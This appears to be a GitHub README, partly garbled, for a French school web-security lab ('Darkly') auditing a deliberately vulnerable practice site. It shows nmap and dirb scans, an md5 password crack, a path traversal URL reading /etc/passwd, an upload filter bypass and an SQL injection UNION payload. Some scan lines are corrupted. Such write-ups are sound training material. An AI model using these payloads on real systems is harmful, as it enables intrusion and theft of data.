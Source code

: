 # Darkly

> Résumé: Ce projet est une introduction à la sécurité en informatique dans le domainedu Web

>Lorsque vous développez vos premiers sites web, vous n’avez généralement pas lamoindre idée des vulnérabilités existantes dans le monde du web.Ce petit projet a pour but de combler ce manque : vous allez prendre conscience deces vulnérabilités en faisant un audit d’un site web simple. Ce site présente des faillesencore régulièrement présentes sur des sites que vous visitez tous les jours.Voici donc une grosse introduction aux vulnérabilités générales que l’on retrouve dansle monde du web.

## Research

Scan with **nmap**

```
$ nmap 192.168.1.48 -p -
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-17 13:29 CEST
Nmap scan report for BornToSecWeb.home (192.168.1.48)
Host is up (0.00014s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
4242/tcp open  vrml-multi-use

Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds
```

2 open ports:

- 80 -> http
- 4242 -> vrml-multi-use

Get all paths on the domain with **dirb**

```
$ dirb http://192.168.1.48 -r

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep 17 11:30:48 2020
URL_BASE: http://192.168.1.48/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.48/ ----
==> DIRECTORY: http://192.168.1.48/admin/                                                                                                                                   
==> DIRECTORY: http://192.168.1.48/audio/                                                                                                                                   
==> DIRECTORY: http://192.16/.hidden8.1.48/css/                                                                                                                                     
==> DIRECTORY: http://192.168.1.48/errors/                                                                                                                                  
+ http://192.168.1.48/favicon.ico (CODE:200|SIZE:1406)                                                                                                                      
==> DIRECTORY: http://192.168.1.48/fonts/                                                                                                                                   
==> DIRECTORY: http://192.168.1.48/images/                                                                                                                                  
==> DIRECTORY: http://192.168.1.48/includes/                                                                                                                                
+ http://192.168.1.48/index.php (CODE:200|SIZE:6892)                                                                                                                        
==> DIRECTORY: http://192.168.1.48/js/                                                                                                                                      
we canSIZE:53)                                                                                                                         
==> DIRECTORY: http://192.168.1.48/whatever/                                                                                                                                
                                                                                                                                                                            
-----------------
END_TIME: Thu Sep 17 11:30:49 2020
DOWNLOADED: 4612 - FOUND: 3
```

Paths found on `http://192.168.1.48/`:

- http://192.168.1.48/admin/
- http://192.168.1.48/audio/
- http://192.168.1.48/css/
- http://192.168.1.48/errors/
- http://192.168.1.48/fonts/
- http://192.168.1.48/images/
- http://192.168.1.48/includes/
- http://192.168.1.48/index.php/
- http://192.168.1.48/js/
- http://192.168.1.48/robots.txt
- http://192.168.1.48/whatever/

Let's check the robots.txt

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

2 hidden paths:

- `/whatever`
- `/.hidden`

### /whatever + /admin

There is a file `htpasswd` with some credentials. We will use it to login in a htaccess on an other page?

Try it on `/admin`, doesn't work

The password was hashed in md5, crack it and we can log in!

### /.hidden

There is many folders and README files inside each. Let's crawl them to find the good README

The good is on the path `http://192.168.1.48/.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README`

###

### home - index.php

If we click on a link we are redirected with a php get parameter like this `http://192.168.1.48/index.php?page=signin`. We can use this to do a path traversal to get some files on the server.

`http://192.168.1.48/index.php?page=../../../../../../../etc/passwd`

### Unrestricted file upload

On the page `http://192.168.1.48/index.php?page=upload`

After some tests, we can just upload jpg files (not png). But we can upload other filetype by writing the request ourself

### SQL injection searchimg

Member_images

-1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,105,109,97,103,101,115)
https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/



